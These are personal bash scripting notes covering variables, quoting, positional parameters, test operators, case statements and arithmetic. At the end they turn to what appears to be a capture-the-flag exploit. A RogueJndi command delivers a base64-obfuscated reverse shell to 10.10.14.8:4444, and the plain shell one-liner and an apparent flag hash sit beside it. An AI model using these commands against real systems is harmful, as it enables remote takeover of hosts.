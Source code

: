 
`type -a 'item'` - find out if its a shell builtin or user command

if user command use man
 
if shell builtin use help
 
Use command to assign to variable = `VARIABLE=$(cmd)`  

Can also be `VARIABLE=`\``cmd`\`
 
Assign value using variable  

`WORD='script'`

variable = `${WORD}` or `$WORD`  

When you want to display the variable's value you use `$Variable`  
 
Single quotes prevent expansion of variables 
 
Double quotes provides the interpretation of the variable 
 
		`TEST='1'`
  
		`echo "$TEST"` provides 1
  
		`echo '$TEST'` provides $test
  
	If we want to append text to the end of the variable you need to use `{}`
 
	`echo "${WORD}ing"` provides Scripting
 
	Combining variables also require that you use the `{`
 
Changing the value stored in a variable (Reassignment)

	`ENDING='ed'`

	`echo "$ENDING"` ed
 
	`ENDING='ing'`
 
	`echo "$ENDING"` ing
 
parameter - variable being used inside the shell script

`;` is command separator or enter key

arguement - data passed into the shel lscritp

	arguement used in command line becoems the value stored in a parameter
 
`${0}` - first positional parameter - what is typed in the cmd line to execute the script - returns output of the command

`${1}` - value fo the first arguement passed to the script on the cmd

expression = `[[ expression ]]

	Display if user is root or not
```
if [[ "${UID}" -eq 0 ]]
		then
			echo 'You are root'
		else 
			echo 'You are not root'
		fi 
```
-eq - equal to 

-lt - less than

le - less than or equal to

gt - greater than

ge - greater than or equal to


`${?}` exit status variable of the most recently executed command

read input `read ` `-p` -passes the input onto value 

	ex. `read -p 'Entire input: ' variable_name`
 
useradd `-c` -comment for user `-m`(make home directory) `"username"`

shuf - shuffles entire lines

fold - wrap each input line to match space 

which - finds which path x command will execute from

	`which head` - finds location of head cmd
 
hash - `hash` - changes shell remembered locations

basename - strips out directory and suffix from filenames - aka display only filename - doesnt do smart checking

dirname - strips last component from file name - aka display only directory  - doesnt do smart checking

!`letter` - goes back to last command that started with X letter

`${@}` - puts each input as seperate words

`${*}` - puts each input as one word

`${#}` - represents the number of arguments

`sleep -s m h d` - delays command for -seconds -minutes -hours -days

`shift` - each time the cmd runs, ${#} goes down one

`readonly [variable]=[variable assignment]` - read only variable 

`getopts` - used matching pattern to get options from input

	`getopts input options OPTION`
 
	`while GET`
 
`bash pgrep -x` - check processes

Redirection


### Case

```
case [input] in
value) command` ;;

;; - block ender
esac - case finish
```

When trying to do math in bash format is `$(( NUM + NUM ))`

num can be variables as well but dont need ${} 


________________________________________________________________________
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuOC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.8"

echo 'bash -c bash -i >&/dev/tcp/10.10.14.8/4444 0>&1' |
base64

6ced1a6a89e666c0620cdb10262ba127

